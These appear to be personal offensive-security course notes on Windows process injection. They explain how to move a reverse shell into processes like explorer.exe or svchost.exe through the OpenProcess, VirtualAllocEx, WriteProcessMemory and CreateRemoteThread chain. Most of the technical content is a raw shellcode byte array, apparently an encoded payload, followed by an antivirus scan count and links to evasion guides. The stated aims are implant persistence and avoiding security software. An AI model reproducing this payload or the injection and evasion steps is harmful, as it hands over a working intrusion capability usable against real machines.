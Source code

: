 http://www.pinvoke.net/

# Process Injection

This is the reference to any .net reference for visual studio.

When obtaining a reverse shell, be it a Meterpreter, regular command shell, or a shell from 
another framework, it must execute within a process. A typical shellcode runner (like those we 
developed in Microsoft Word, PowerShell, and Jscript) executes the shell inside its own process.
There are potential issues with this approach. First, the victim may close the application, which 
could shut down our shell. Second, security software may detect network communication from a 
process that normally doesn’t generate it and block our shell.
One way to overcome these challenges is with process injection or process migration. In this 
module, we’ll discuss these concepts and demonstrate various implementation techniques.

## finding a home for shellcode 

To extend the longevity of our implant, we can execute it in a process that is unlikely to terminate.
One such process is explorer.exe, which is responsible for hosting the user’s desktop experience. 
We could also inject into a new hidden process like notepad.exe, or we could migrate to a process 
like svchost.exe that performs network communication

Process vs thread

By definition, a process is a container that is created to house a running application. Each 
Windows process maintains its own virtual memory space. Although these spaces are not meant 
to directly interact with one another, we may be able to accomplish this with various Win32 APIs.
On the other hand, a thread executes the compiled assembly code of the application. A process 
may have multiple threads to perform simultaneous actions and each thread will have its own 
stack and shares the virtual memory space of the process

OpenProcess to open a process
VirtualAllocEx to allocate virtual memory
WriteProcessMemory to write to the allocated space
CreateRemoteThread to execute thread under the remote process

We will discuss these APIs in more detail in the next section, but we need to take a moment to 
discuss security permissions. The OpenProcess API opens an existing local process for 
interaction and must be supplied with three parameters. The first argument, dwDesiredAccess, 
establishes the access rights245 we require on that process. Let’s take a moment to discuss these 
access rights.
To call OpenProcess successfully, our current process must possess the appropriate security 
permissions. Every process has a Security Descriptor246 that specifies the file permissions of the 
executable and access rights of a user or group, originating from the creator of the process. This 
can effectively block privilege elevation.
All processes also have an Integrity level247 that restricts access to it. This works by blocking 
access from one process to another that has a higher Integrity level, however accessing a 
process with a lower Integrity level is generally possible.

opening notepad properties as user from procexp
difference in integrity level: 

![](notepad_permissions.png)

### creating a code based injection

```
unsigned char buf[] =                                                                                                                                                                                                                    
"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef\xff"                                                                                                                                                                           
"\xff\xff\x48\xbb\x12\xf5\x6a\xb2\xc8\xd7\x9c\xae\x48\x31\x58"                                                                                                                                                                           
"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xee\xbd\xe9\x56\x38\x3f"                                                                                                                                                                           
"\x5c\xae\x12\xf5\x2b\xe3\x89\x87\xce\xff\x44\xbd\x5b\x60\xad"                                                                                                                                                                           
"\x9f\x17\xfc\x72\xbd\xe1\xe0\xd0\x9f\x17\xfc\x32\xbd\xe1\xc0"                                                                                                                                                                           
"\x98\x9f\x93\x19\x58\xbf\x27\x83\x01\x9f\xad\x6e\xbe\xc9\x0b"
"\xce\xca\xfb\xbc\xef\xd3\x3c\x67\xf3\xc9\x16\x7e\x43\x40\xb4"
"\x3b\xfa\x43\x85\xbc\x25\x50\xc9\x22\xb3\x18\x5c\x1c\x26\x12"
"\xf5\x6a\xfa\x4d\x17\xe8\xc9\x5a\xf4\xba\xe2\x43\x9f\x84\xea"
"\x99\xb5\x4a\xfb\xc9\x07\x7f\xf8\x5a\x0a\xa3\xf3\x43\xe3\x14"
"\xe6\x13\x23\x27\x83\x01\x9f\xad\x6e\xbe\xb4\xab\x7b\xc5\x96"
"\x9d\x6f\x2a\x15\x1f\x43\x84\xd4\xd0\x8a\x1a\xb0\x53\x63\xbd"
"\x0f\xc4\xea\x99\xb5\x4e\xfb\xc9\x07\xfa\xef\x99\xf9\x22\xf6"
"\x43\x97\x80\xe7\x13\x25\x2b\x39\xcc\x5f\xd4\xaf\xc2\xb4\x32"
"\xf3\x90\x89\xc5\xf4\x53\xad\x2b\xeb\x89\x8d\xd4\x2d\xfe\xd5"
"\x2b\xe0\x37\x37\xc4\xef\x4b\xaf\x22\x39\xda\x3e\xcb\x51\xed"
"\x0a\x37\xfb\x76\xa0\xef\x9c\x4d\xc6\x58\xb2\xc8\x96\xca\xe7"
"\x9b\x13\x22\x33\x24\x77\x9d\xae\x12\xbc\xe3\x57\x81\x6b\x9e"
"\xae\x03\xa9\x60\xb8\xce\xdd\xdd\xfa\x5b\x7c\x8e\xfe\x41\x26"
"\xdd\x14\x5e\x82\x4c\xb5\x37\x02\xd0\x27\xf8\x9d\x6b\xb3\xc8"
"\xd7\xc5\xef\xa8\xdc\xea\xd9\xc8\x28\x49\xfe\x42\xb8\x5b\x7b"
"\x85\xe6\x5c\xe6\xed\x35\x22\x3b\x0a\x9f\x63\x6e\x5a\x7c\xab"
"\xf3\x72\x3d\x93\x71\xf2\x0a\xbf\xfa\x41\x10\xf6\xbe\x53\xad"
"\x26\x3b\x2a\x9f\x15\x57\x53\x4f\xf3\x17\xbc\xb6\x63\x7b\x5a"
"\x74\xae\xf2\xca\xd7\x9c\xe7\xaa\x96\x07\xd6\xc8\xd7\x9c\xae"
"\x12\xb4\x3a\xf3\x98\x9f\x15\x4c\x45\xa2\x3d\xff\xf9\x17\xf6"
"\xa3\x4b\xb4\x3a\x50\x34\xb1\x5b\xea\x36\xa1\x6b\xb3\x80\x5a"
"\xd8\x8a\x0a\x33\x6a\xda\x80\x5e\x7a\xf8\x42\xb4\x3a\xf3\x98"
"\x96\xcc\xe7\xed\x35\x2b\xe2\x81\x28\x54\xe3\x9b\x34\x26\x3b"
"\x09\x96\x26\xd7\xde\xca\xec\x4d\x1d\x9f\xad\x7c\x5a\x0a\xa0"
"\x39\xc6\x96\x26\xa6\x95\xe8\x0a\x4d\x1d\x6c\x6c\x1b\xb0\xa3"
"\x2b\x08\x6e\x42\x21\x33\xed\x20\x22\x31\x0c\xff\xa0\xa8\x6e"
"\xff\xea\x49\x28\xa2\x99\x15\x55\xe6\x18\xdd\xa2\xd7\xc5\xef"
"\x9b\x2f\x95\x67\xc8\xd7\x9c\xae";

```

Using mingw compiler https://www.msys2.org/


https://code.visualstudio.com/docs/cpp/config-mingw#:~:text=From%20the%20main%20menu%2C%20choose%20Run%20%3E%20Add%20Configuration..,build%20and%20debug%20active%20file. 

cttrl + shift + b - to build

with the pe injection it works from here - 

https://www.ired.team/offensive-security/code-injection-process-injection/process-injection

scan result 5/26

Trying to evade the AV we have - https://0xhop.github.io/evasion/2021/04/19/evasion-pt1/








